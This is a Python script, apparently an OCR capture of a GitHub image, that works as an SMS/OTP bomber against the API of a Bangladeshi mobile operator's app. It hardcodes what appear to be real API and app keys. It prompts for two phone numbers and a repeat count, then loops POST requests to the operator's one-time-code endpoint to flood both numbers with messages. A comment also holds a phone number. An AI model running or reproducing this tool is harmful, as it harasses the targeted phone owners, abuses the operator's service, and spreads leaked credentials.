 import requests
import json
class bcolors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKCYAN = '\033[96m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

print(f"{bcolors.OKBLUE}{bcolors.BOLD}")


url = 'https://circle.robi.com.bd/mylife/appapi/appcall.php?op=getUserInfobyNickname'
myobj = {'nickname':"circle"}

#use the 'headers' parameter to set the HTTP headers:
x = requests.post(url, data = myobj, headers = {"x-api-key": "ca7bf505399cd270b9ba0da59a052523","x-app-key":"000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg"})

#convert response to json format

#parse the json to get the service ticket
response= x.text
#the 'demopage.asp' prints all HTTP Headers
#01044439830

json_object = json.loads(response)

json_formatted_str = json.dumps(json_object, indent=1)

# print(json_formatted_str)
# print(json_object)

# Input the key value that you want to search
keyVal = "data"

# load the json data
customer = json.loads(response)
# Search the key value using 'in' operator
if keyVal in customer:
    print("Number Example 8801234567890")
    name = input("Enter 1st Number ")
    name2 = input("Enter 2nd Number ")
    i=int(input("Enter Counter "))
    y=0
    while y<i:
        url = 'https://circle.robi.com.bd/mylife/appapi/appcall.php?op=getOTC&app_version=75&pin=12345'
        myobj = {'msisdn':name}

#use the 'headers' parameter to set the HTTP headers:
        requests.post(url, data = myobj, headers = {"x-app-key":"000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg"})
        myobj2 = {'msisdn':name2}

#use the 'headers' parameter to set the HTTP headers:
        requests.post(url, data = myobj2, headers = {"x-app-key":"000oc0so48owkw4s0wwo4c00g00804w80gwkw8kg"})

        y=y+1
        print(y)

    print("\nCounting Completed")
else:
    # Print the message if the value does not exist
    print("SerVer Down!!!!")
